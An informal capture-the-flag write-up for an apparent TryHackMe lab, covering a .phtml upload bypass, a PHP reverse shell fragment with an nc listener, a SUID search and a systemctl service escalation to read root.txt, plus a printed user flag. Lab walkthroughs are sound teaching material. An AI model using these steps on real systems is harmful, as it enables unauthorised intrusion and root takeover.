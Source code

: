 ###my Local proxy ip : 10.18.29.3

-------
now Use Brup payload And find (.phtml) cant upload in site
-------

###Start Using php reverse shell


///
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.10.10;  // CHANGE THIS get this ip after conect to Tryhackme VPN with this command
```
ip a | grep tun
```

$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

///



start sh reverse php 

after upload phtml use this comend 
```
nc -nlvp 4444
```


# usernam : bill
# user flag : 8bd7992fbe8a6ad22a63361004cfcedb

##use 
```
find / -perm /4000 2>&1 | grep -v “Permission denied”


```
and find systemctl accses so make sevise script
```
echo ‘[Service] 
ExecStart=/bin/sh -c “cat /root/root.txt > /tmp/output” 
[Install]
WantedBy=multi-user.target’ > $eop
/bin/systemctl link $eop
/bin/systemctl enable —now $eop 

```
### Now root.txt flag cp to /tmp/output


yeeeeeeeeeeeeeeeeeeeees

In 26 years after life ifeel can learning any thing in limited and so hPPY

sorry iam speak persian and English selflearning for that whrite so bad :smile

